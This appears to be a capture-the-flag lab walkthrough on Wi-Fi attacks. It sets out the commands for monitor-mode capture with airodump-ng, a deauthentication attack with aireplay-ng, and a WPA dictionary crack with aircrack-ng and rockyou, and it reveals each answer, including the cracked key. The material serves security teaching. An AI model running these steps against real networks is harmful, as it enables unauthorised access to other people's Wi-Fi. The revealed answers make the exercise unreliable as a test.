 <h1>Learning Objectives</h1>
<li>Understand what Wi-Fi is.</li>
<li>Explore its importance for an organisation.</li>
<li>Learn the different Wi-Fi attacks.</li>
<li>Learn about the WPA/WPA2 cracking attack.</li>

<p align="center"><i>Mayor Malware had one, just one SOC-mas wish:
<p align="center">The SOC organiser would fall for his phish!
<p align="center">Well on top of this, he wanted as well,
<p align="center">Once the email opened, to gain a rev shell.</i></p>

<p align="center"><img src="https://github.com/user-attachments/assets/e1bd07f4-9f67-4522-ac81-46af0784ddd8"  width="650"/> 

<p>Marta May Ware is surprised that her system was compromised even after following tight security, but McSkidy thinks she traced the attacker, and he got in. It’s none other than Mayor Malware who got into the system. This time, the Mayor used phishing to get his victim. McSkidy’s quick incident response prevented significant damage.</p>

<p>In this task, you will run a security assessment against Marta May Ware. The purpose would be to improve her security and raise her cyber security awareness against future attacks.</p>


<p><h2>Q1: What is the BSSID of our wireless interface?</h2></p>

<details>
  <summary>Q1 Walkthrough</summary>
    <p>Open terminal window and run the command iw dev to display all available wireless devices on the system along with their configurations</p>
      <img src="https://github.com/user-attachments/assets/423bf724-047a-4f08-8dcd-49b17cc110a2"/>

 <details> 
  <summary>Q1 Answer</summary>
   <p><b>02:00:00:00:02:00</b>
    <p><img src="https://github.com/user-attachments/assets/57dee9bf-1d52-4b42-a56c-98abf6779877"/></details>
</details>


<p><h2>Q2: What is the SSID and BSSID of the access point? </h2></p>

<details>
  <summary>Q2 Walkthrough</summary>
    <p>In a terminal, run "sudo iw dev wlan2 scan" to scan for available Wi-Fi networks</p>
      <img src="https://github.com/user-attachments/assets/afe0cac1-0bc0-4796-ad2c-6072354e6051"/>

 <details> 
  <summary>Q2 Answer</summary>
   <p><b>MalwareM_AP, 02:00:00:00:00:00</b>
    <p><img src="https://github.com/user-attachments/assets/a7e1d0d6-3f7c-4c37-aeba-ee42d30ebff8"/>
    <p><img src="https://github.com/user-attachments/assets/1a21ec6e-2b15-46bf-8bfa-764d6d644bc8"/></details>
</details>


<p><h2>Q3: What is the BSSID of the wireless interface that is already connected to the access point?</h2></p>

<details>
  <summary>Q3 Walkthrough</summary>
    <p>In a terminal, run the following commands to disbale your network interace, switch to monitoring mode, and then turn reenable your network interface</p>
      <img src="https://github.com/user-attachments/assets/c072fae1-48bb-41d0-8f4e-b0b6dba45e2c"/>
    <p>Confirm the network interface is in monitoring mode by running "sudo iw dev wlan2 info"</p>
      <img src="https://github.com/user-attachments/assets/5a6401f5-e857-4481-847f-1c693b703625"/>
    <p>Run "sudo airodump-ng wlan2" to capture the Wi-Fi traffic in the area</p>
      <img src="https://github.com/user-attachments/assets/ddaa2698-b28e-400d-8545-cef311f62b00"/>
    <p>Run "sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2" to target the BSSID and network channel of the MalwareM_AP access point and discover any connected devices</p>
      <img src="https://github.com/user-attachments/assets/cd4c2559-321e-464f-8e49-023b923dcd5f"/>
       
 <details> 
  <summary>Q3 Answer</summary>
   <p><b>02:00:00:00:01:00</b>
    <p><img src="https://github.com/user-attachments/assets/48dbc596-4a74-49aa-8067-043ba7398780"/></details>
</details>


<p><h2>Q4: What is the PSK after performing the WPA cracking attack?</h2></p>

<details>
  <summary>Q4 Walkthrough</summary>
    <p>In a seperate terminal, run "sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2" to perform a deauthentication attack on the MalwareM_AP and send 1 deauth to attempt to deauthenticate the connected client</p>
      <img src="https://github.com/user-attachments/assets/19d67504-4254-4cc8-b99d-d21dd823efdc"/>
    <p>Verify the WPA handshake was recorded in the terminal that is capturing traffic on the MalwareM_AP access point</p>
      <img src="https://github.com/user-attachments/assets/bdce2abc-fc41-42b2-953a-0ae75fa18efa"/>
    <p>Run "sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap" to perform a dictionary attack to crack the pre-shared key (PSK) on the MalwareM_AP</p>
      <img src="https://github.com/user-attachments/assets/46df0811-82dc-4604-8e1f-e1340e792a79"/>
       
 <details> 
  <summary>Q4 Answer</summary>
   <p><b>fluffy/champ24</b>
    <p><img src="https://github.com/user-attachments/assets/0d469fb8-892d-482b-a76a-4bbb648cee24"/></details>
</details>
